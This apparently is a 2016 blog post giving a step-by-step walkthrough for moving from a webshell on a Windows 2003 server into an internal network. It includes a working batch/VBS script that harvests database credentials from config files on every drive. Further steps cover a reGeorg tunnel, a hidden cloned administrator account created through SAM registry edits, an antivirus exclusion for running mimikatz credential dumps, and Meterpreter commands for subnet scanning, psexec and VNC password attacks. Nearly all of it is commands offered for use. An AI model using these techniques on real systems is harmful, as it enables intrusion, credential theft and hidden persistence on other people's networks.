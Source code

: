 ```yaml
---
layout:     post
title:      Inside network in workgroup
date:       2016-04-10
summary:    from one windows 2003 to inside network privilege
categories: web
tags:
 - inside network
 - windows
 - aspx
 - 工作组
---
```


### 0x01 Base
    got a webshell of xxx.xxx.xxx.101(run aspx)  
    don't know how to get system shell from this webshell  
    there exists not only one site on xxx.xxx.xxx.101  
    find xxx.xxx.xxx.101 has another address 10.10.10.101

### 0x02 Steps  

#### 1>search web.config on all sites to find sa and sapass

```
1.bat
@echo off
goto :main
这是注释:(for /f "delims="的作用为取消默认的以空格等符号作为分割符
dir /s 实现了linux中的find功能,for /r path %%i in (web.conf?g) do ... 也可以实现find功能,但是自己实现时发现for /r path ...中的path只能是一个具
体路径,不能是变量,这样就不能遍历全部磁盘了)
:main
set str=c d e f g h i j k l m n o p q r s t u v w x y z 
echo  当前硬盘的分区有: 
for %%i in (%str%) do (
if exist %%i: (echo %%i:
for /f "delims=" %%j in ('dir /b /s %%i:\web.conf?g %%i:\global.a?a %%i:\wp-config.p?p %%i:\setting.p?p %%i:\database.p?p %%i:\config.p?p %%i:
\config.ini.p?p %%i:\conn.p?p %%i:\connect.p?p %%i:\conn.a?p %%i:\conn.a?a') do (
echo *****filepath***** >> tmp.txt
echo %%j >> tmp.txt
type "%%j" >> tmp.txt
echo. >> tmp.txt
echo ---------------------------- >> tmp.txt
echo 我是美丽的分割线 >> tmp.txt
echo ---------------------------- >> tmp.txt
echo. >> tmp.txt
)
)
)

2.vbs
Set ws = CreateObject("Wscript.Shell")
ws.run "cmd /c 1.bat",vbhide

cscript 2.vbs
```

##### or download from:`https://github.com/3xp10it/bat/tree/master/get_web_config_bat`

#### [\+] find sa and sapass of 10.10.10.1,but as a inside network pc,3389 is not allowed from outside

#### 2>upload a tunnel.aspx(from reGeorg) to  xxx.xxx.xxx.101
```
[python] reGeorg.py -p 1080 -u https://xxx.xxx.xxx.101/xx/tunnel.aspx
```

#### 3>use sa pri in chopper execute:  
```
net user tmp /add & net localgroup administrators tmp /add  
net localgroup "remote desktop users" tmp /add
```

#### 4>runas admin->cmd-> mstsc /console /v:10.10.10.1 -admin
```
[10.10.10.1:3389 with tmp account]:  
add a superhide administrator account cloned from administrator account:  
net user tmp$ /add & net localgroup administrators tmp$ /add
regedit->local machine->sam->account->name
export 0x111<assume as administrator's> as admin.reg
export 0x222<assume as tmp$'s> as user.reg
export account->name->tmp$ as tmp.reg
copy /F value from admin.reg to user.reg
net user tmp$ /del
import tmp.reg and user.reg
delete admin.reg,user.reg,tmp.reg
logoff

[10.10.10.1:3389 with tmp$ account]:  
net user tmp /del
open setup of eset to add exclude file path
copy \\tsclient\mimikatz\ exclude_folder

[run mimikatz]:  
privilege::debug
sekurlsa::logonpasswords
```

#### 5>upload a meterpreter payload to 10.10.10.1
```
meterpreter>run get_local_subnets
            10.0.0.0/255.0.0.0
meterpreter>background
(handler)>route add 10.0.0.0 255.0.0.0 1
(handler)>route print
(handler)>use auxiliary/scanner/portscan/tcp
set ports 25,110,21,80,8080,443,1433,3606,3389,5900
set rhosts 10.10.10.0/24
set threads 24
exploit

smb:
(handler)use exploit/windows/smb/psexec
(handler)set rhosts 10.10.10.0/24
(handler)set username and pass from sekurlsa::logonpasswords in mimikatz before
or the password find by mimikatz in msf:
load  mimikatz
mimikatz_command -f sekurlsa::searchPasswords
(handler)exploit
enter other pc by smbpass
use mimikatz to find morepassword
search regedit to find morevncpassword

vnc:
search winvnc password in 10.10.10.1:
if ini file with password was delete,then open regedit search "password" 
F3+F3+F3...
find vnc password
use vnccrack tool in cain to carck it
get vncpassword
use auxiliary/scanner/vnc/vnc_login
set rhosts 10.10.10.0/24
set password vpnpassword
exploit
enter other pc by vnc password
use mimikatz to find morepassword
search regedit to find morevncpassword

smb&vnc
use morepassword in exploit/windows/smb/psexec
use morevncpassword in auxiliary/scanner/vnc/vnc_login



```
